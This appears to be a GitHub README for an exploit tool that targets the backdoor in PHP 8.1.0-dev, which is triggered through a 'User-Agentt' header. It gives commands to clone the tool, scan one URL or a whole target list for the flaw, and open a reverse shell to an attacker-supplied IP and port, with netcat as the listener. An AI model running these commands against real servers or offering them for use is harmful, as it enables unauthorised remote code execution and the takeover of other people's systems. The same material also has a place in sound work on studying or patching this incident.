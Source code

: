 # PHP 8.1.0-dev backdoor

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

## How to install

You can install the exploit with git clone:

```
git clone https://github.com/0xGabe/php-8.1.0-backdoor
```

## How to use

### Check the vuln

The php-exploit at moment has two options, a single URL and a target list, see the commands below for both:

- Single URL

```
python3 php-exploit.py --url https://site.com
```

- Target List

```
python3 php-exploit.py --list target.txt
```

### Get a Reverse Shell

To get a reverse shell you need open another terminal with NC.

```
python3 php-exploit.py --url https://site.com --lhost YOUR-IP --lport YOUR-PORT
```

!()[image-poc.png]
